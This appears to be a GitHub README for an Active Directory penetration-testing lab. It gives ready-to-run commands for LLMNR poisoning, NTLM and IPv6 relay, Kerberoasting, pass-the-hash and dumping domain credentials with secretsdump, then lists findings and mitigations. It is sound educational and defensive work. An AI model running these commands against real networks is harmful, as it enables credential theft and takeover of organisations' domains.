









# Active Directory Penetration Testing Lab

## Overview
Simulated Active Directory penetration test demonstrating common attack techniques in a controlled lab environment.

## Lab Environment
- **Domain Controller:** Windows Server 2022
- **Workstations:** 2x Windows 10  
- **Attacker:** Kali Linux
- **Network:** 192.168.100.0/24

## Attack Chain

### 1. Initial Access

**LLMNR/MDNS Poisoning** — Responder listens on the network and captures NTLMv2 hashes when a victim attempts to resolve a non-existent hostname.
```bash
sudo responder -I eth0 -dwv
```


---

**Hash Cracking** — Captured NTLMv2 hash cracked offline using Hashcat with rockyou.txt wordlist.
```bash
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
```


---

**SMB Relay Attack** — Relay captured NTLM authentication to another machine to dump SAM hashes.

> Run in two separate terminals simultaneously:

**Terminal 1:**
```bash
sudo responder -I eth0 -dwv --lm
```
**Terminal 2:**
```bash
sudo ntlmrelayx.py -tf target_relay.txt -smb2support -i
```


**Dump SAM hashes after obtaining credentials:**
```bash
netexec smb 192.168.100.13 -u thanhthao -p 'Welcome1' --sam
```


---

### 2. Post-Exploitation / Lateral Movement

**IPv6 Attack (mitm6)** — Abuse IPv6 DNS to perform a man-in-the-middle attack, relay authentication over LDAPS to create a new user with DCSync privileges.

> Run in two separate terminals simultaneously:

**Terminal 1:**
```bash
sudo mitm6 -d giahuy.local --ignore-nofqdn -i eth0
```
**Terminal 2:**
```bash
sudo ntlmrelayx.py -6 -t ldaps://192.168.100.131 -wh fakewpad.giahuy.local -l loot
```



---

### 3. Enumeration

**BloodHound** — Collect AD data and visualize relationships to identify attack paths to Domain Admin.
```bash
sudo bloodhound-python -d giahuy.local -u thanhthao -p 'Welcome1' -ns 192.168.100.131 -c all
```



---

### 4. Privilege Escalation

**Kerberoasting** — Request TGS tickets for service accounts and crack them offline to obtain plaintext passwords.

**Step 1 - Request TGS ticket:**
```bash
sudo GetUserSPNs.py giahuy.local/thanhthao:'Welcome1' -dc-ip 192.168.100.131 -request
```


**Step 2 - Crack TGS hash offline:**
```bash
hashcat -m 13100 kerberoast.txt /usr/share/wordlists/rockyou.txt
```


---

**Pass-the-Hash** — Use the dumped NTLM hash to authenticate without knowing the plaintext password, achieving a SYSTEM shell.
```bash
smbexec.py Administrator@192.168.100.13 -hashes aad3b435b51404eeaad3b435b51404ee:<NT_HASH>
```


---

### 5. Domain Compromise

**NTDS.dit Dump** — Using the account created via mitm6 IPv6 relay with DCSync privileges to dump all domain credentials.
```bash
secretsdump.py 'giahuy.local/uxmMlLalAJ:GY}{.#<qVo$<Tzo@192.168.100.131' -just-dc
```


---

## Tools Used
- Kali Linux
- Responder
- Impacket (ntlmrelayx, smbexec, secretsdump)
- netexec
- BloodHound
- mitm6
- Hashcat

## Key Findings
| Vulnerability          | Severity |
|------------------------|----------|
| LLMNR Enabled          | High     |
| Weak Service Passwords | Critical |
| SMB Signing Disabled   | High     |
| IPv6 Not Disabled      | High     |

## Mitigations
- Disable LLMNR/NBT-NS
- Enable SMB signing
- Strong password policy
- Network segmentation

## Disclaimer
Educational purposes only. Performed in isolated lab environment.

## References
- [TCM Security - PEH](https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course)
- [MITRE ATT&CK](https://attack.mitre.org/)
